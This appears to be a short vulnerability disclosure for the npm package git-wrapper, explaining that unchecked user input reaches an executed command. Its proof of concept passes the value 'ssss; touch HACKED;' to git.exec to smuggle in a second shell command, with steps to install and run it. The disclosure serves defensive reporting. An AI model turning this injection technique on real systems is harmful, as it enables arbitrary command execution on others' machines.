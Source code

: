 # Overview

The issue occurs because a `user input` is formatted inside a `command` that will be executed without any check. The issue arises here:

## Proof of Concept (Credit: [Mik317](https://huntr.dev/app/users/Mik317))

1. Create the following PoC file:

```js
// poc.js
var Git = require("git-wrapper");
var git = new Git();
git.exec("ssss; touch HACKED;", [], function (err, s) {});
```

2. Check there aren't files called `HACKED`
3. Execute the following commands in another terminal:

```bash
npm i git-wrapper # Install affected module
node poc.js #  Run the PoC
```

4. Recheck the files: now `HACKED` has been created

